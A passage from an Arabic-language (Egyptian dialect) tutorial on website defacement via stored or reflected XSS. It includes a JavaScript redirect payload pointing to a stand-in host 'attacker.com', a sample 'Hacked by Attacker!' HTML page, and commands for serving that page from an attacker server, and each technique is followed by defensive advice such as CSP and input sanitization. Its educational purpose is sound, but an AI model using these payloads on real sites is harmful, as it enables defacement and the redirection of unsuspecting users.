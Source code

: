        - `querySelectorAll`: بيختار كل العناصر من نوع معين (زي `<h1>`).
     - **اختبار محلي**:
       - في الـ Console:
         ```javascript
         document.body.style.background = "blue";
         ```
         - الأمر ده بيغيّر خلفية الصفحة.
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع تعديل الأنماط ديناميكيًا.
     - نظف المدخلات.

#### 6. **إعادة توجيه المستخدم لصفحة Defacement خارجية**
   - **إزاي بتحصل؟**
     - السكربت بيعمل ريدايركت لصفحة خارجية معمولة مسبقًا بيظهر فيها محتوى Defacement.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       window.location = "http://attacker.com/defaced.html";
       ```
       - `window.location`: بيعمل ريدايركت لصفحة المهاجم.
     - **إعداد صفحة Defacement**:
       - المهاجم بيعمل صفحة HTML بسيطة:
         ```html
         <!DOCTYPE html>
         <html>
         <body style="background:black; color:red; text-align:center;">
             <h1>Hacked by Attacker!</h1>
             <p>This site is under our control!</p>
             <img src="hacker.png">
         </body>
         </html>
         ```
       - وبيحطها على سيرفره باستخدام Python:
         ```bash
         python3 -m http.server 80
         ```
         - أو Apache:
           ```bash
           sudo apt install apache2
           sudo mv defaced.html /var/www/html/defaced.html
           sudo systemctl start apache2
           ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع الريدايركت لمواقع غريبة.
     - راقب حركة الشبكة لو فيها تحويلات غريبة.

---

